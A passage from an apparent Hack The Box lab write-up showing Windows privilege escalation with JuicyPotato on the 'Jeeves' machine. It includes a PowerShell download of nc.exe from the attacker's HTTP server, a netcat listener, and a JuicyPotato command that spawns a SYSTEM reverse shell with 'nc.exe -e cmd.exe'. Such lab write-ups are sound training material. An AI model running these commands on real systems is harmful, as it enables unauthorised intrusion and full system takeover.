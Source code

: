 **Execute JuicyPotato to get a SYSTEM privilege shell:**

- Transfer `nc.exe` binary to the target machine:

```shell
┌[siunam♥earth]-(/usr/share/windows-resources/binaries)-[2023.05.26|16:45:56(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
c:\Users\kohsuke\Desktop>powershell iwr -Uri http://10.10.14.26/nc.exe -OutFile nc.exe

c:\Users\kohsuke\Desktop>.\nc.exe -h
[v1.10 NT]
connect to somewhere:	nc [-options] hostname port[s] [ports] ... 
listen for inbound:	nc -l -p port [options] [hostname] [port]
options:
	-d		detach from console, stealth mode

	-e prog		inbound program to exec [dangerous!!]
	-g gateway	source-routing hop point[s], up to 8
	-G num		source-routing pointer: 4, 8, 12, ...
	-h		this cruft
	-i secs		delay interval for lines sent, ports scanned
	-l		listen mode, for inbound connects
	-L		listen harder, re-listen on socket close
	-n		numeric-only IP addresses, no DNS
	-o file		hex dump of traffic
	-p port		local port number
	-r		randomize local and remote ports
	-s addr		local source address
	-t		answer TELNET negotiation
	-u		UDP mode
	-v		verbose [use twice to be more verbose]
	-w secs		timeout for connects and final net reads
	-z		zero-I/O mode [used for scanning]
port numbers can be individual or ranges: m-n [inclusive]
```

- Setup a `nc` listener:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Jeeves)-[2023.05.26|16:51:14(HKT)]
└> rlwrap -cAr nc -lnvp 53
listening on [any] 53 ...
```

- Run the payload:

```shell
c:\Users\kohsuke\Desktop>.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.14.26 53" -t *
.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.14.26 53" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
